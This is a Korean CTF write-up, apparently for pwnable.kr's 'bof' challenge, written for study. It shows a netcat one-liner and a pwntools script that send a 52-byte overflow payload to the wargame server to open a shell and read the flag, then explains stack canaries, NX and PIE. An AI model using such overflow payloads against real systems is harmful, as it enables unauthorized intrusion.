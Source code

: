 **스택 그림으로 설명해드리면 아래와 같게 된다.**

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179690201-b47b25c1-0d9c-4f5e-a54f-5bf0791ac912.png" width = 380>
</p>

* 0xdeadbeaf까지는 총 52byte이기 때문에 패딩 값 52byte와 0xcafebabe를 넣으면 된다.

```bash
(python -c 'print "A"*52 + "\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000
```

> 전에는 됐었던거 같은데 checksec로 확인해보면 Stack Guard, PIE, NX bit 모두 활성화 되어 있다. 그것 때문에 안되는 것이 스크립트를 작성해서 해보겠습니다.

### 스크립트

```Python
from pwn import *

payload = 'A' * 52 + '\xbe\xba\xfe\xca'
shell = remote('pwnable.kr', 9000)
shell.send(payload)
shell.interactive()
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179698439-0b3265e3-ecbf-45ac-a519-5a660c852573.png" width = 380>
</p>

* 다행히도 정상적으로 payload가 넘어가서 권한 탈취하여 flag 값을 뽑아 올 수 있었습니다 !

## 보호 기법

**checksec**로 해당 파일을 확인해보면 STACK CANARY, NX-bit, PIE 보호기법 모두 적용 되어있다.

버퍼 오버플로우를 대응하기 위한 기법이 무엇이 있는지 확인 해보겠습니다!

 - CANARY   
        Canaries 또는 Canary word는 버퍼 오버 플로우를 모니터하기 위해 버퍼와 제어 데이터 사이에 설정 된 값이다. 버퍼 오버플로가 발생하면 Canary 값이 손상되며, Canaries 데이터의 검증에 실패하여, 오버플로에 대한 경고가 출력되고, 손상된 데이터를 무효화 처리한다.
        위 어셈블리어의 func+6을 보면 gs:0x14가 CANARY이다. eax에 CANARY RANDOM값을 넣어 버퍼 오버플로시 변경되었을 때 위 값을 비교하여 무효화 처리 하는 것이다.

 - NX-bit  
         메모리에 쓰기 권한과 실행 권한을 동시에 부여하지 않도록 하는 보호 기법입니다. 라이브러리 메모리에 존재하는 함수를 이용하여 공격하는 RTL을 통해 우회가 가능하다.

 - PIE   
         이 기법을 프로그램 실행 시 코드 영역의 주소가 변하기 때문에 ROP와 같은 코드 재사용 공격을 막을 수 있다.
